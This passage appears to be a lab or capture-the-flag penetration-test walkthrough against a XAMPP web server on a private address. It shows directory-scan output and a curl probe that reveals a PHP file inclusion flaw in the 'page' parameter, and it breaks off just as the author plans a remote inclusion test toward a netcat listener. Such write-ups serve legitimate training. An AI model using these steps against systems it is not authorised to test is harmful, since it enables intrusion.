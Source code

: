 ```bash
GENERATED WORDS: 4612                                                          

---- Scanning URL: http://192.168.68.53:8080/ ----
...                                             
                                                                                                         
---- Entering directory: http://192.168.68.53:8080/img/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                                                         
---- Entering directory: http://192.168.68.53:8080/site/ ----
+ http://192.168.68.53:8080/site/aux (CODE:403|SIZE:1045)                                                
+ http://192.168.68.53:8080/site/com1 (CODE:403|SIZE:1045)                                               
+ http://192.168.68.53:8080/site/com2 (CODE:403|SIZE:1045)                                               
+ http://192.168.68.53:8080/site/com3 (CODE:403|SIZE:1045)                                               
+ http://192.168.68.53:8080/site/con (CODE:403|SIZE:1045)                                                
==> DIRECTORY: http://192.168.68.53:8080/site/css/                                                       
==> DIRECTORY: http://192.168.68.53:8080/site/fonts/                                                     
==> DIRECTORY: http://192.168.68.53:8080/site/images/                                                    
==> DIRECTORY: http://192.168.68.53:8080/site/Images/                                                    
+ http://192.168.68.53:8080/site/index.php (CODE:301|SIZE:27)                                            
==> DIRECTORY: http://192.168.68.53:8080/site/js/                                                        
+ http://192.168.68.53:8080/site/lpt1 (CODE:403|SIZE:1045)                                               
+ http://192.168.68.53:8080/site/lpt2 (CODE:403|SIZE:1045)                                               
+ http://192.168.68.53:8080/site/nul (CODE:403|SIZE:1045)                                                
+ http://192.168.68.53:8080/site/prn (CODE:403|SIZE:1045)                                                
                                                                                                         
---- Entering directory: http://192.168.68.53:8080/dashboard/de/ ----
+ http://192.168.68.53:8080/dashboard/de/aux (CODE:403|SIZE:1045)        
^C> Testing: http://192.168.68.53:8080/dashboard/de/cgi-win
We will focus on the website running from the /site directory.

Exploitation
Remote File Inclusion Vulnerability
Navigating to http://192.168.68.53:8080/site/ redirects to http://192.168.68.53:8080/site/index.php?page=main.php. A simple test of the page parameter suggests a potential file inclusion vulnerability.

┌──(kali㉿kali)-[~]
└─$ curl http://192.168.68.53:8080/site/index.php?page=hola                            
<br />
<b>Warning</b>:  include(hola): failed to open stream: No such file or directory in <b>C:\xampp\htdocs\site\index.php</b> on line <b>4</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'hola' for inclusion (include_path='C:\xampp\php\PEAR') in <b>C:\xampp\htdocs\site\index.php</b> on line <b>4</b><br />
Let’s determine if the vulnerability allows remote file inclusion. We’ll direct the vulnerable parameter to our attack machine which is running a netcat listener on port 80.

```